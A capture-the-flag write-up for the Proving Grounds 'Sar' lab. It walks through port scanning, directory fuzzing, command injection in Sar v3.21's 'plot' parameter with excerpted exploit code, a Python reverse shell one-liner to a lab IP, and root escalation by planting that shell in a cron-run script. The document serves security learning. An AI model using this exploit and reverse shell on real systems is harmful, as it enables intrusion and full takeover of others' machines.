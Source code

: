 ```yaml
---
title: "Proving grounds Play: Sar"
layout: post
date: 2023-07-23 12:00
categories: writeup
---
```


Proving grounds Play - Sar CTF writeup.

## NMAP
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3340be13cf517dd6a59c64c813e5f29f (RSA)
|   256 8a4eab0bdee3694050989858328f719e (ECDSA)
|_  256 e62f551cdbd0bb469280dd5f8ea30a41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Fuzzing for Directories and Files

```sh
000000069:   200        375 L    964 W      10918 Ch    "index.html"                           
000000157:   403        9 L      28 W       279 Ch      ".htaccess"                            
000000248:   200        1 L      1 W        9 Ch        "robots.txt"                           
000000279:   200        1172 L   5873 W     95674 Ch    "phpinfo.php"
```

**Sar v3.21**

![img](/assets/images/CTF/Proving_Grounds/Sar/sar.png)

## Searchsploit

![img](/assets/images/CTF/Proving_Grounds/Sar/searchsploit.png)

## Remote Code Execution

As per the exploit code the param `plot` is vulnerable to remote code execution.

```py
def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")       #vulnerable
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()
```

**Python Reverse Shell**

```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.151",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## Reverse Shell Obtained

![img](/assets/images/CTF/Proving_Grounds/Sar/local.png)

## Privilege Escalation

Crontab running a cron job every 5 minutes.

![img](/assets/images/CTF/Proving_Grounds/Sar/cron.png)

Listing permissions for the script file.

![img](/assets/images/CTF/Proving_Grounds/Sar/cron_file.png)

### Script contents

**Finally.sh**

```sh
#!/bin/sh

./write.sh
```

**write.sh**

```sh
#!/bin/sh

touch /tmp/gateway
```

Added python revershell to the `write.sh` file, so when the cronjob runs the write.sh file it will runs as `root`.

![img](/assets/images/CTF/Proving_Grounds/Sar/write_sh.png)

## Root Obtained

![img](/assets/images/CTF/Proving_Grounds/Sar/root.png)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).